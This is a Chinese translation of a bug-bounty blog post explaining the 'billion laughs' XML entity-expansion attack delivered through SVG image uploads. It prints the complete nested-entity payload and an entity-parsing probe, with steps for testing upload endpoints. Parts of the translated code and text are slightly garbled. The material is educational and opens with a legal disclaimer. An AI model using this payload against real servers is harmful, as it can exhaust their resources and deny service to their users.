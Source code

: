 # 用笑声杀死他们:“十亿个笑声”通过图片上传攻击

> 原文：<https://infosecwriteups.com/kill-em-with-laughter-the-billion-laughs-attack-through-image-uploads-4e9c57ca6434?source=collection_archive---------0----------------------->

![](img/afe4e82b9fb97592d975847a1318d75f.png)

黑客总是笑到最后。

> 声明:在你无权测试的系统上尝试这个是非法的。如果你发现了一个漏洞，请负责任地向程序披露。**这可不是闹着玩的……**

# 我们将复习的内容:

*   什么是十亿笑攻击？
*   如何在网站中找到并利用这个漏洞？
*   信用/资源

首先，介绍一下。你好，读者！我在网上的黑客化名是[思维摇摆](https://medium.com/u/3e3753492422?source=post_page-----4e9c57ca6434--------------------------------)，我是一名狂热的赏金猎人。两个月前，当我第一次加入 Hackerone 时，我开始了我的 bugbounty 之旅。这是我的第一篇关于一个非常有趣的漏洞类的博文，它有点复杂，所以我会尽可能清晰地解释它！

# 什么是十亿笑攻击？

有许多不同类型的“十亿次大笑”攻击，但我将通过图片上传来了解其中一种。为了解释这一点，我们必须回顾一些关于图像、图像类型以及它们如何上传到服务器的关键基础知识。

大多数人可能都熟悉常见的图像扩展名，如 PNG、JPEG 和 GIF。SVG 呢？没听说过？这种攻击可能通过图片上传的全部原因就在于此。

**上传个人资料图片时，让我们看看**[**POST**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)**请求中的典型 PNG 图像:**

![](img/8f1210ba15bd34ef238a5689c3cacb3f.png)

红色圆圈指出了请求正文中的 PNG 图像

**现在让我们看一个典型的**[**SVG**](https://www.w3schools.com/graphics/tryit.asp?filename=trysvg_circle)**图片在**[**POST**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)**请求上传期间:**

```
<svg height=”100" width=”100">
 <circle cx=”50" cy=”50" r=”40" stroke=”black” stroke-width=”3" fill=”red” />
</svg>^^Replace the PNG image above with this SVG image and some websites will treat it like a regular image and upload it.
```

有什么区别吗？

首先，SVG 看起来更像一种标记语言，而不是图像。SVG 由一种叫做 [XML](https://www.w3schools.com/XML/xml_whatis.asp) 的标记语言组成。SVG 上传本身不是一个漏洞，并且是常用的，但是它们很容易被修改成坏事。让我们通过 SVG 图像来理解十亿次笑声攻击是如何工作的。

**简单的 SVG 上传在** [**发布**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) **请求:**

```
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
]>
<svg>
<text>&lol;</text>
</svg>
```

让我们一行一行地过一遍。在 XML 中，有一个实体，类似于 python 中的变量。就像在 python 中设置变量一样:

```
x = "Hello World!"
```

您可以在 XML 中设置实体:

```
**<!ENTITY x** “Hello World!”*>*
```

要调用一个实体，您需要在它的前面加上一个&符号，在它的后面加上一个分号。所以如果我想调用实体`x`,我会这样做:

```
&x;
```

回到我们的例子，当我们看到第一行中的实体`lol`时，如果它被调用，SVG 图像会显示文本“lol”。现在让我们进入恶意的东西。

**亿笑攻击 SVG 有效载荷** [**帖子**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) **请求:**

```
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<svg>
<lolz>&lol9;</lolz>
</svg>
```

现在我们知道了实体和 XML 调用是如何工作的，我们可以开始讨论这种攻击是如何工作的。我们一行一行来看。首先，我们将实体`lol`设置为字符串值`"lol"`

```
<!ENTITY lol "lol">
```

接下来，我们设置实体`lol1`调用&lol；10 次:

```
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
```

我们还设置实体 lol2 调用`&lol1;` 10 次:

```
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
```

现在，假设我们在这里停下来调用`&lol1;`，发生的情况是，服务器端 XML 解析器必须调用 lol2，lol 2 被定义为`&lol1` 10 *乘以*。这只是针对它在`&lol2;`中看到的第一个`&lol1;`，解析器现在必须调用实体 10 次。

如果我们像在原始有效载荷中看到的那样再重复 7 次**该死的次数**，服务器将不得不解析 10⁹实体，导致它在十亿个 LOL 的笑声中死去**。**

![](img/3f3d67b1cc666989e365fc1fac791b60.png)

这是一个很大的损失

# 如何在网站中找到并利用这个漏洞？

*图像上传。*查找 POST 请求中使用图像的每个实例，并用 SVG 替换它，看看服务器端 XML 阅读器是否会解析它。

测试它的一种方法是查看浏览器是否解析静态实体。例如，如果您已经确定了一个 SVG 上传，尝试添加这个小实体，看看服务器是否会用一些文本覆盖您的图像，检查它是否正在解析您的实体:

```
<!DOCTYPE testingxxe [ <!ENTITY xml "Hello World!"> ]> 
<svg xmlns:svg="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)" ae mt" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)" width="200" height="200">
<image height="30" width="30" xlink:href="[https://yourimage.com](https://app.zivver.com/assets/img/shield.11ac41.svg)" /> 
<text x="0" y="20" font-size="20">&xml;</text> 
</svg>
```

如果有效，调用文本标签之外的实体，您的有效负载将会执行！

# 学分和额外资源:

我想真诚地感谢那些帮助我修改我的第一篇博客的人，请继续在 Twitter 上关注他们吧！

> @ goobstersec @ vflagger @ DBlackwoodSec

如果你喜欢这个博客，请务必关注我的下一篇文章，我将在文章中介绍我的第一个有效错误，它是一个导致 SSRF 的 SVG XXE。别担心，这比听起来简单多了！

有关所有内容的额外资源，请查看以下页面:

[](https://portswigger.net/web-security/xxe) [## 什么是 XXE (XML 外部实体)注入？教程和示例|网络安全学院

### 在这一节中，我们将解释什么是 XML 外部实体注入，描述一些常见的例子，解释如何…

portswigger.net](https://portswigger.net/web-security/xxe) [](https://en.wikipedia.org/wiki/Billion_laughs_attack) [## 十亿次大笑攻击

### 从维基百科，计算机安全的免费百科全书，十亿次大笑攻击是一种拒绝服务…

en.wikipedia.org](https://en.wikipedia.org/wiki/Billion_laughs_attack) [](https://www.w3schools.com/graphics/svg_intro.asp) [## SVG 教程

### SVG 代表可缩放矢量图形。SVG 以 XML 格式定义了基于矢量的图形。通过我们的“亲自尝试”…

www.w3schools.com](https://www.w3schools.com/graphics/svg_intro.asp) ![](img/70c4fd043cb50beed774b4cbeb776e51.png)

XML 思维导图

![](img/2d81d83d89f5d55f1d10d9f2facd457e.png)
